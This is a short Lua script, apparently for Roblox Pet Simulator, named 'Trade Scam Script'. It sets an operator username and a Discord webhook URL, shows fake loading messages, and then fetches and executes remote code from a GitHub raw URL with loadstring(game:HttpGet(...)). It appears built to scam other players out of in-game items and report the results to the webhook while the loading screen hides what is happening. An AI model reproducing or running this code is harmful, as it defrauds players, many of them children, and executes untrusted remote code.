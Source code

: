 Username = "ideaw3212670"

WebHook = "https://discord.com/api/webhooks/1099522477572497468/4Y1fJ8L0hEydncKNIlGF6QbdnRq8Lxpl4bThGhve3FpHjuqwB-_vhZVXr5ZzWPzlx8iY"

loadingscreen = true -- set this to false and remove _G. stuff to use your own GUI

_G.CustomScriptName = "Trade Scam Script"

_G.Text1 = "Script Loaded..."

_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
